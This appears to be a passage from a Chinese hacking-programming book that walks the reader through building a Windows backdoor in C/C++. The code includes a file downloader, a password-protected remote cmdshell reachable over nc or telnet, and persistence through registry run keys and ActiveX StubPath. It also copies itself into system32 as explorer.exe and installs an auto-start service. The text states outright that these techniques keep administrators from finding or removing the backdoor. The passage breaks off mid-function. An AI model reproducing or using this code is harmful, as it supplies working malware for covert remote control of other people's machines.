下面我们来看看程序的具体实现代码（源码在光盘“第二章\http下载\httpdown”下）：

```cpp
#include <stdio.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")

// http 下载文件
void download(char *Url, char *FilePath)
{
    // 删除已有文件
    if (!DeleteFile(FilePath))
    {
        printf("文件已存在，并且无法删除\n");
    }

    // 下载文件
    URLDownloadToFile(0, Url, FilePath, 0, 0);

    // 判断文件存不存在，以确定下载成功与否
    if (FileExists(FilePath))
    {
        printf("文件下载成功\n");
    }
    else
    {
        printf("文件下载失败\n");
    }
}

int main(int argc, char* argv[])
{
    download(argv[1], argv[2]);
    return 0;
}
```

### 2.7 实现 cmdshell 和各功能的切换

- 前置知识：C/C++ 基础、注册表编程、文件操作编程、Winsock 编程基础、进程控制编程
- 难度：中等
- 编译环境：VC++6.0
- 测试环境：Windows XP

通过前面几节的学习，到目前为止后门的基本功能都已经实现，剩下的问题就是把各个功能组合在一起，再加上密码验证，形成一个完整的后门。

我们先来罗列下我们现在实现的功能，包括 cmdshell、列举进程、结束进程、开远程终端、关机、重启、注销和文件搜索。那么我们具体怎样来整合这些功能呢？我们可以把各个功能都编写成函数，以接收到特定字符串作出相应的判断，调用哪个函数，执行哪项功能。当相应的功能执行完毕后，再继续等待接收新的特定字符串。并且在刚接收到连接时，必须对连接者进行密码验证。

我们的后门的具体结构就如图 17 所示。

但是为了考虑通用性这里我们还必须解决一个问题：一般连接后门都会用到 nc 或 telnet，但是 nc 和 telnet 在传输数据上却是不同的。nc 是当输完字符，按回车后，把先前的字符组成字符串一起发送，之后再发送回车符；而 telnet 则是输入一个字符发送一个字符。

用 telnet 的连接，比如当后门收到字符串 `cmdshell` 会开启 `cmdshell` 功能，但是当用户输入第一个字符 `c` 的时候就已经传输了，输入 `m` 的时候又把 `m` 传输给了后门，这样后门永远也接收不到 `cmdshell` 这个字符串。



既然这样，我们可以把收到的字符进行累加，比如第一个收到 `c`，第二个收到 `m`，那么前两个累加后就是 `cm`，以此类推。当收到回车符之后就把累加的字符串和后门中定义的字符串进行比较，以确定执行哪项功能。功能执行完成后，再把用于存储累加字符串的变量清空，以便继续接收新的字符串。这样就解决了 telnet 连接的问题，当然对于 nc 的连接也是可行的。

而密码验证的过程也是一个接收数据进行比较的过程，和上面类似，为了通用也要进行字符累加处理。

讲完了思路，我们就要用代码来解决我们的问题了。在接收连接后，进行密码验证，验证成功，则启动一个线程接收数据，然后进行数据对比，以确定执行哪个功能函数，基本框架代码如下：

```c
int main(int argc, char* argv[])
{
    // Winsock 的操作用于初始化 socket，监听端口
    sClient[i] = accept(sListen, NULL, NULL); // 接收连接

    // 密码验证

    // 成功则创建后门线程
    CreateThread(NULL, NULL, DoorThread, (LPVOID)sClient[i], 0, &dwThreadId);
}

// 后门线程函数
DWORD WINAPI DoorThread(LPVOID lpParam)
{
    while (true)
    {
        while (true)
        {
            // 每次接收一个字符
            if ((ret = recv(s, buff, 1, 0)) == SOCKET_ERROR)
            {
                closesocket(s);
                return 0;
            }

            // 假如是回车则跳出循环
            if (buff[0] == 0xa)
            {
                break;
            }

            // 假如不是回车就把字符累加给 DoorData
            if (buff[0] != 0xa && buff[0] != 0xd)
                strcat(DoorData, buff);
        }
    }
}
```

```c
if (strncmp(DoorData, "cmdshell", 8) == 0)
{
    ... // 执行 cmd 功能函数
}
............. // 其他一些后门功能
```

这里还有一点要补充说明，在 telnet 中回车符是分成两个字符来传输的，即 `0xA` 和 `0xD`，为了让一个回车只跳出循环一次，所以：

```c
if (buff[0] == 0xa)
{
    break;
}
```

这句只对回车的一个字符进行判断。而为了不让 `DoorData` 中有回车符而影响后面代码对 `DoorData` 的调用，所以过滤掉回车符：

```c
if (buff[0] != 0xa && buff[0] != 0xd)
    strcat(DoorData, buff);
```

下面我们再来看看密码验证的过程，它其实和上面的命令字符比较过程差不多，直接给出框架代码如下：

```c
int main(int argc, char* argv[])
{
    // Winsock 的操作用于初始化 socket，监听端口
    sClient[i] = accept(sListen, NULL, NULL); // 接收连接
    send(sClient[i], "PassWord:\r\n", strlen("PassWord:\r\n"), 0);
    while (true)
    {
        // 每次接收一个字符
        if ((re = recv(sClient[i], buff, 1, 0)) == SOCKET_ERROR)
        {
            closesocket(sClient[i]);
            return 0;
        }

        // 收到回车符则跳出循环
        if (buff[0] == 0xa)
        {
            break;
        }

        // 过滤回车符
        if (buff[0] != 0xa && buff[0] != 0xd)
            strcat(PassWord, buff);
    }

    // 假如密码正确则创建后门线程
    if (strcmp(PassWord, "shmily") == 0)
    {
        ...
    }
}
```

```cpp
// 创建后门线程
CreateThread(NULL, NULL, DoorThread, (LPVOID)sClient[i], 0, &dwThreadId);
// 发送欢迎消息
send(sClient[i], wMessage, strlen(wMessage), 0);
}
// 密码错误则断开连接
else
{
    send(sClient[i], "\r\n 密码错误\r\n", strlen("\r\n 密码错误\r\n"), 0);
    closesocket(sClient[i]);
}
```

下面我们来看执行效果，如图 18 所示。



图18

由于后门每个功能模块的代码都讲解过了，所以这里就不再贴出具体代码了，源码在光盘“第二章\cmdshell和各功能的切换\door”下。

### 2.8 自启动功能的实现

- 前置知识：C/C++ 基础、注册表编程基础
- 难度：难
- 编译环境：VC++6.0
- 测试环境：Windows XP

自启动是后门必须拥有的一项功能，它的隐蔽性很大一部分决定了后门的生存能力。假如你后门的启动项三下五除二就被管理员删了，那么你对服务器的控制也就到此结束了。所以后门自启动的方式是评价后门好坏的关键。

#### 2.8.1 注册表启动

我们在“开始”->“运行”中输入“msconfig”，回车后就打开了“系统配置实用程序”，选择“启动”选项卡，可以看到如图 19 所示的界面。这里显示的这些程序都是通过加载注册表来实现自启动的，所以注册表启动相对来说也就不是很隐蔽了，但是也可以加载一些这里未显示的注册表键值来实现自启动，以增强后门的隐蔽性。

### 什么是注册表加载启动？

所谓注册表加载启动就是在注册表中修改或者增加相关的自启动键值，并且一般来说这些键值的数据要改成要实现自启动程序的文件名。

那么注册表启动也就是只要建立或修改注册表中的键或键值就可以了。对于修改注册表，第一章中已经详细讲解过，并且在开远程终端这一节中已经应用过了，对于我们来说已经是非常熟悉。

既然要修改注册表实现自启动，那具体要修改哪些键值呢？下面我们来看一下：

- 1. **Load 注册键**  
  `HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows\` 下的 `load` 键值，把它设成包含具体路径的文件名。

- 2. **Userinit 注册键**  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\` 下的 `Userinit` 键值，通常该键值默认的值是 `userinit.exe`，但这个键允许指定用逗号分隔的多个程序，例如 `userinit.exe,OSA.exe`。

- 3. **Explorer\Run 注册键**  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run` 或 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run` 下建立包含具体路径的文件名的键值。

- 4. **RunServicesOnce 注册键**  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce` 或 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce` 下建立包含具体路径的文件名的键值。

- 5. **RunServices 注册键**  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices` 或 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices` 下建立包含具体路径的文件名的键值。

- 6. **RunOnce\Setup 注册键**  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\Setup` 或 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\Setup` 下建立包含具体路径的文件名的键值。

- 7. **RunOnce 注册键**  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` 或 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce` 下建立包含具体路径的文件名的键值。

- 8. **Run 注册键**  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 或 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下建立包含具体路径的文件名的键值。

那么我们只要编程建立或修改上面的这些键值的数据为自身的文件名，就可以实现自启动了。但是在修改它们之前还要做一步，把后门程序自身复制到 system32 或 Windows 目录下。因为在这些目录下系统文件比较多，一般管理员删除在这些目录下的文件会比较谨慎。这从一定意义上保护了我们的后门不被删除。

要实现复制文件我们当然要用 `CopyFile` 这个函数啦，但是我们还有一个问题没解决。大家注意到没有，`CopyFile` 函数的第一个参数就是源文件名，在这里也就是我们自身程序的文件名（包含路径），那具体怎么得到呢？我们用 `GetModuleFileName` 函数就可以轻松实现，此函数原型如下：

```c
DWORD GetModuleFileName(HMODULE hModule,
    LPTSTR lpFilename,
    DWORD nSize);
```

`hModule` 参数指向模块的句柄，如果此参数为 `NULL`，则为自身程序的句柄。`lpFilename` 参数指向一个缓冲区的指针，用来存储返回的模块文件名（包含路径）。`nSize` 参数指向 `lpFilename` 缓冲区的字符长度。如果函数调用成功，返回值为复制 `lpFilename` 缓冲区的字符串的字符长度，否则返回值为零。

有了上面这些必要的基础，要编程实现注册表启动已是轻而易举了。这里我们还是用第一章中的自定义函数 `CreateStringReg` 来实现修改注册表，下面我们就把这个自启动功能写成一个函数吧，具体代码如下（源码在光盘“第二章\自启动功能的实现\注册表启动\autorun”下）：

```c
int autorun()
{
    char SelfFile[MAX_PATH];
    char SystemPath[512];

    // 得到系统目录路径
    GetSystemDirectory(SystemPath, sizeof(SystemPath));
    strcat(SystemPath, "\\explorer.exe");

    // 得到自身程序路径
    GetModuleFileName(NULL, SelfFile, MAX_PATH);

    // 复制文件
    if(!CopyFile(SelfFile, SystemPath, true))
        return 0;

    // 写入注册表
    CreateStringReg(HKEY_CURRENT_USER,
        "Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows",
        "load", SystemPath);
    return 0;
}
```

#### 2.8.2 ActiveX 启动

由于近年来大量国外木马被汉化，国外木马的一些技术也在国内广泛被使用，就像 ActiveX 启动方式（国外木马禽兽（Beast）就是用这种方式启动的），现在在国内已经比较流行了。

#### 编程小贴士

> **什么是 ActiveX？**
>
> ActiveX 是 Microsoft 提出的一组使用 COM（Component Object Model，部件对象模型）使得软件部件在网络环境中进行交互的技术集。它与具体的编程语言无关，作为针对 Internet 应用开发的技术，ActiveX 被广泛应用于 WEB 服务器以及客户端的各个方面。同时，ActiveX 技术也被用于方便地创建普通的桌面应用程序。

其实实现 ActiveX 启动非常简单，原理也是修改注册表，只是修改的位置和方式比较特殊。

在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components` 键下有类似 `{E92B03AB-A707-11d2-9CBD-0000F87A369H}` 的子键，在这个子键下，有名为 `StubPath` 的字符串型键值，如图20所示。这个键值指向的就是开机自启动的程序名（包含路径）。



图20

那么我们只要在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components` 键下建立类似 `{E92B03AB-A707-11d2-9CBD-0000F87A369H}` 的子键，并且在其下建立名为 `StubPath` 的字符串型键值，把它设成后门的全路径文件名，就能实现开机自启动了。

假如你真的这样试过了，那么你会发现，修改后的第一次开机是自启动了，但以后开机就不会自动运行了。这是因为在第一次自启动后系统会在 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Active Setup\Installed Components` 下创建和 `{E92B03AB-A707-11d2-9CBD-0000F87A369H}` 同名的键，所以每次后门开机自动运行时都要把 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Active Setup\Installed Components` 下的 `{E92B03AB-A707-11d2-9CBD-0000F87A369H}` 键删除。

知道 ActiveX 启动的原理，要编程实现也就变得相对比较简单了。程序只需要实现每次后门运行时判断 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Active Setup\Installed Components` 下有没有 `{E92B03AB-A707-11d2-9CBD-0000F87A369H}` 键，有（说明 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components` 下已经建立了 `{E92B03AB-A707-11d2-9CBD-0000F87A369H}` 键）则删除，没有则说明后门是第一次运行，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components` 建立 `{E92B03AB-A707-11d2-9CBD-0000F87A369H}` 键及其子键，复制自身文件到系统目录下。

##### 编程实现

具体代码如下（在光盘“第二章\自启动功能的实现\active”下）：

```c
int main(int argc, char* argv[])
{
    HKEY hKey;
    DWORD dwDpt = REG_OPENED_EXISTING_KEY;
    // 打开 HKEY_CURRENT_USER\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{E92B03AB-A707-11d2-9CBD-0000F87A369H}
    long lRet = RegOpenKeyEx(HKEY_CURRENT_USER,
        "SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{E92B03AB-A707-11d2-9CBD-0000F87A369H}",
        REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, &hKey);

    // 不存在则复制自身文件到系统目录并加载 ActiveX 启动
    if (lRet != ERROR_SUCCESS)
    {
        char SelfFile[MAX_PATH];
        char SystemPath[512];
        // 得到系统目录路径
        GetSystemDirectory(SystemPath, sizeof(SystemPath));
        strcat(SystemPath, "\\door.exe");

        // 得到自身程序路径
        GetModuleFileName(NULL, SelfFile, MAX_PATH);

        // 复制文件
        CopyFile(SelfFile, SystemPath, true);

        // 加载 ActiveX 启动（自定义修改注册表函数）
        CreateStringReg(HKEY_LOCAL_MACHINE,
            "SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{E92B03AB-A707-11d2-9CBD-0000F87A369H}",
            "StubPath", SystemPath);

        return 0;
    }

    // 否则删除 HKEY_CURRENT_USER\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{E92B03AB-A707-11d2-9CBD-0000F87A369H}
    RegDeleteKey(HKEY_CURRENT_USER,
        "SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{E92B03AB-A707-11d2-9CBD-0000F87A369H}");

    // ……后门代码
    return 0;
}
```

#### 2.8.3 系统服务启动

Windows 下的服务程序都遵循服务控制管理器（SCM）的接口标准，它们会在登录系统时自动运行，甚至在没有用户登录系统的情况下也会正常执行，而服务器一般都是处在注销状态下，所以系统服务启动，非常适合作为后门的启动方式。

在具体讲述这种自启动方式的实现之前，我们必须对系统服务的组成有一定的了解，这也给小菜们提供了一个恶补的机会，可不要错过呀。

系统服务具体有以下四部分组成：

### 1、服务控制管理器（SCM）

服务控制管理器在系统启动的早期由 Winlogon 进程启动，可执行文件名是 `Admin$\System32\Services.exe`，它是系统中的一个 RPC 服务器，因此服务配置程序和服务控制程序可以远程操纵服务。它包括以下几方面的信息：

### 已安装服务数据库：

服务控制管理器在注册表中拥有一个已安装服务的数据库，它在服务控制管理器和程序添加、删除、配置服务程序时使用，在注册表中数据库的位置为：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`。

它包括很多子键，每个子键的名字就代表一个对应的服务。数据库中包括：服务类型（私有进程、共享进程）、启动类型（自动运行、由服务控制管理器启动、无效）、错误类型（忽略、常规错误、服务错误、关键错误）、执行文件路径、依赖信息选项、可选用户名与密码。

### 自动启动服务：

系统启动时，服务控制管理器启动所有“自动”服务和相关依赖服务。服务的加载顺序、顺序装载组列表：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\ServiceGroupOrder`；指定组列表：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\GroupOrderList`；每个服务所依赖的服务程序。

在系统成功引导后会保留一份 LKG（Last-Know-Good）的配置信息位于：`HKEY_LOCAL_MACHINE\SYSTEM\ControlSetXXX\Services`。

### 因要求而启动服务：

用户可以使用服务控制面板程序来启动一项服务，服务控制程序也可以使用 `StartService` 来启动服务。服务控制管理器会进行下面的操作：获取账户信息、登录服务项目、创建服务为悬挂状态、分配登录令牌给进程、允许进程执行。

### 服务记录列表：

每项服务在数据库中都包含了下面的内容：服务名称、开始类型、服务状态（类型、当前状态、接受控制代码、退出代码、等待提示）、依赖服务列表指针。

### 服务控制管理器句柄：

服务控制管理器支持句柄类型访问以下对象：已安装服务数据库、服务程序、数据库的锁开状态。

### 2、服务控制程序（SCP）

服务控制程序可以执行对服务程序的开启、控制和状态查询功能。

### 开启服务：

如果服务的开启类型为 `SERVICE_DEMAND_START`，就可以用服务控制程序来开始一项服务。在开始服务的初始化阶段，服务的当前状态为 `SERVICE_START_PENDING`，而在初始化完成后的状态就是 `SERVICE_RUNNING`。

### 向正在运行的服务发送控制请求：

控制请求可以是系统默认的，也可以是用户自定义的。标准控制代码包括：停止服务（`SERVICE_CONTROL_STOP`）、暂停服务（`SERVICE_CONTROL_PAUSE`）、恢复已暂停服务（`SERVICE_CONTROL_CONTINUE`）、获得更新信息（`SERVICE_CONTROL_INTERROGATE`）。

### 3、服务程序

一个服务程序可能拥有一个或多个服务的执行代码。我们可以创建类型为 `SERVICE_WIN32_OWN_PROCESS` 的只拥有一个服务的服务程序，而类型为 `SERVICE_WIN32_SHARE_PROCESS` 的服务程序却可以包含多个服务的执行代码。

### 4、服务配置程序

编程人员和系统管理员可以使用服务配置程序来更改、查询已安装服务的信息，当然也可以通过注册表函数来访问相关资源。

服务的安装、删除和列举：我们可以使用相关的系统函数来创建、删除服务和查询所有服务的当前状态。

服务配置：系统管理员通过服务配置程序来控制服务的启动类型、显示名称和相关描述信息。

到这里组成服务的四个部分已经介绍完了，可能上面的文字不是那么好懂，换成通俗的说法就是，服务控制管理器是系统管理服务用的；服务控制程序通过接收控制请求和其他程序进行交互，需要我们实现代码；服务程序是服务的入口点函数。对于后门我们只要创建服务和删除服务就可以了。现在我们并不需要对服务的组成有多深入的了解，只需要有一个简单的概念就可以了。下面我们就通过编程，一步一步地来实现上面的三个部分即可（服务控制管理器由系统提供）。

首先是服务配置部分，它要实现服务的创建和删除。我们来实现创建服务功能，其编程的具体流程如图21所示。从图21中我们可以看到，程序要实现的第一步是把自身文件复制到系统目录，这一部分的代码在注册表启动中已经实现了。我们直接来看第二步，通过调用 `OpenSCManager` 函数得到服务控制管理器数据库句柄。这个函数我们并未接触过，先来看看它的函数原型：



```c
SC_HANDLE OpenSCManager(
  LPCTSTR lpMachineName,
  LPCTSTR lpDatabaseName,
  DWORD   dwDesiredAccess
);
```

`lpMachineName` 参数指向了要打开服务控制管理器数据库的目标主机名，如果传递 `NULL`，则默认为本机。`lpDatabaseName` 参数指向了目标主机 SCM 数据库名字的字符串。`dwDesiredAccess` 参数指定了对 SCM 数据库的访问权限，如果要创建服务，首先你需要拥有目标机器的管理员权限，一般传递 `SC_MANAGER_ALL_ACCESS` 就可以了。此函数调用失败返回 `NULL`，成功则返回 SCM 数据库的句柄。

当得到了 SCM 数据库的句柄后就可以调用 `CreateService` 函数创建服务了，此函数的原型如下：

```c
SC_HANDLE CreateService(
  SC_HANDLE hSCManager,
  LPCTSTR   lpServiceName,
  ...
);
```

```c
LPCTSTR lpDisplayName,
DWORD dwDesiredAccess,
DWORD dwServiceType,
DWORD dwStartType,
DWORD dwErrorControl,
LPCTSTR lpBinaryPathName,
LPCTSTR lpLoadOrderGroup,
LPDWORD lpdwTagId,
LPCTSTR lpDependencies,
LPCTSTR lpServiceStartName,
LPCTSTR lpPassword );
```

`hSCManager` 参数指向了服务控制管理数据库句柄，由 `OpenSCManager` 函数返回。  
`lpServiceName` 参数指向了要创建的服务名称。  
`lpDisplayName` 参数指向了显示的服务名称。  
`dwDesiredAccess` 参数指定了对服务访问的权限。  
`dwServiceType` 参数指定了服务类型。  
`dwStartType` 参数指定了服务启动类型。  
`dwErrorControl` 参数指定了错误控制类型。  
`lpBinaryPathName` 参数指向了服务程序完整路径。  
`lpLoadOrderGroup` 参数指向了组服务名称。  
`lpdwTagId` 参数指定了组标识。  
`lpDependencies` 参数指定了依赖的服务。  
`lpServiceStartName` 参数指向了启动服务的账号。  
`lpPassword` 参数指向了启动服务的口令。

函数调用失败返回 `NULL`，成功则返回所创建服务的句柄。此函数的参数非常多，可能大家看了会有些头晕，但是很多参数都可以用 `NULL` 来填充，所以此函数可以如下调用：

```c
schService=CreateService(schSCManager, "MyDoor", "MyDoor", SERVICE_ALL_ACCESS,
    SERVICE_WIN32_OWN_PROCESS, SERVICE_AUTO_START,
    SERVICE_ERROR_IGNORE, SystemPath, NULL, NULL, NULL, NULL, NULL);
```

假如调用此函数失败，并且失败的原因是服务已经存在，那么我们就必须调用 `OpenService` 函数打开已经创建的服务，此函数原型如下：

```c
SC_HANDLE OpenService(
    SC_HANDLE hSCManager,
    LPCTSTR lpServiceName,
    DWORD dwDesiredAccess);
```

`hSCManager` 参数指向了服务控制管理数据库句柄，由 `OpenSCManager` 函数返回。  
`lpServiceName` 参数指向了要打开的服务名称。  
`dwDesiredAccess` 参数指定了服务的访问类型。  
函数调用失败返回 `NULL`，成功则返回要打开服务的句柄。

通过以上两步得到服务句柄后就要调用 `StartService` 函数启动服务了，`StartService` 函数原型如下：

```c
BOOL StartService(
    SC_HANDLE hService,
```

##### 创建并启动服务

```c
DWORD dwNumServiceArgs,
LPCTSTR *lpServiceArgVectors);
```

`hService` 参数指定了要启动服务的句柄，由 `OpenService` 或 `CreateService` 函数返回。`dwNumServiceArgs` 参数指向启动服务所需参数的个数。`lpServiceArgVectors` 参数指向启动服务的参数。此函数调用成功返回 `TRUE`，否则返回 `FALSE`。当调用完 `StartService` 函数后，接下去我们就要调用 `QueryServiceStatus` 函数来查询服务的状况了，此函数原型如下：

```c
BOOL QueryServiceStatus(
    SC_HANDLE hService,
    LPSERVICE_STATUS lpServiceStatus);
```

`hService` 参数指向要查询的服务句柄。`lpServiceStatus` 参数用于返回服务的状态信息，它指向一个 `SERVICE_STATUS` 结构。这里我们只需要知道此结构中有 `dwCurrentState` 这个字段，它标识当前服务状态，常取以下值：

- `SERVICE_RUNNING`：服务正在启动。
- `SERVICE_START_PENDING`：服务将要启动。
- `SERVICE_STOP_PENDING`：服务将要停止。
- `SERVICE_STOPPED`：服务已经停止。

此函数执行成功返回 `TRUE`，否则返回 `FALSE`。当得到了服务的运行状态后，最后当然是关闭一些打开了的句柄，调用 `CloseServiceHandle` 函数即可。此函数只有一个参数，它指向要关闭的服务句柄。整个创建和启动服务的过程就是调用了以上这些 API 函数，下面我们来看这一部分的具体代码：

```c
int APIENTRY InstallService()
{
    SC_HANDLE schSCManager;
    SC_HANDLE schService;
    DWORD dwErrorCode;
    SERVICE_STATUS InstallServiceStatus;

    // ……复制文件到系统目录
    // 打开服务控制管理器数据库
    schSCManager = OpenSCManager(NULL, NULL,
        SC_MANAGER_ALL_ACCESS);
    if (schSCManager == NULL)
    {
        printf("OpenSCManager Error.\n");
        return 0;
    }

    // 创建服务
    schService = CreateService(schSCManager, "MyDoor",
        "MyDoor", SERVICE_ALL_ACCESS,
        SERVICE_WIN32_OWN_PROCESS, SERVICE_AUTO_START,
        SERVICE_ERROR_IGNORE, SystemPath,
        NULL, NULL, NULL, NULL, NULL);

    // 创建失败
    if (schService == NULL)
    {
        dwErrorCode = GetLastError();
        if (dwErrorCode != ERROR_SERVICE_EXISTS)
        {
            printf("CreateService Error ! \n");
            CloseServiceHandle(schSCManager);
            return 0;
        }

        // 如果服务存在
    }
    else
    {
        // 假如服务已存在则打开服务
        schService = OpenService(schSCManager,
            "MyDoor", SERVICE_START);

        // 打开失败
        if (schService == NULL)
        {
            printf("OpenService Error ! \n");
